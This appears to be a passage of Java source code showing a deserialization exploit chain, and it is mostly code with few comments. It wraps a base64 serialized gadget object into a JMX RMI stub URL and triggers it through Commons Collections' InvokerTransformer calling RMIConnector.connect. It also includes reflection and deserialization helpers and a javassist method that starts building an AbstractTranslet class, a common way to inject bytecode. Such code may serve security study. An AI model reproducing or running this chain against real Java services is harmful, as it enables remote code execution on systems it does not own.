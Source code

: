 ```java
//
//        serialize(objectObjectHashtable);
//        unserialize("ser.bin");



        ByteArrayOutputStream tser = new ByteArrayOutputStream();
        ObjectOutputStream toser = new ObjectOutputStream(tser);
        toser.writeObject(getObject());
        toser.close();
        String exp= Base64.getEncoder().encodeToString(tser.toByteArray());
        JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi://");
        setFieldValue(jmxServiceURL, "urlPath", "/stub/"+exp);
        RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);
        InvokerTransformer invokerTransformer = new InvokerTransformer("connect", null, null);
        invokerTransformer.transform(rmiConnector);




        ///  public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        //        super();
        //        iMethodName = methodName;
        //        iParamTypes = paramTypes;
        //        iArgs = args;
        //    }
//        public Object transform(Object input) {
//            if (input == null) {
//                return null;
//            }
//            try {
//                Class cls = input.getClass();
//                Method method = cls.getMethod(iMethodName, iParamTypes);
//                return method.invoke(input, iArgs);
     //   invokerTransformer.transform()




    }
    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        objectOutputStream.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream(Filename));
        return objectInputStream.readObject();
    }
    public static void setFieldValue(Object obj,String filename,Object newobj) throws NoSuchFieldException, IllegalAccessException {
        Field declaredField = obj.getClass().getDeclaredField(filename);
        declaredField.setAccessible(true);
        declaredField.set(obj,newobj);
    }
    public static byte[] getbyte() throws NotFoundException, CannotCompileException, IOException, javassist.NotFoundException {
        ClassPool classPool=new ClassPool(true);
        CtClass helloAbstract = classPool.makeClass("hello");
        CtClass ctClass = classPool.getCtClass("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
        helloAbstract.setSuperclass(ctClass);
        CtConstructor constructor=new CtConstructor(new CtClass[]{},helloAbstract);
```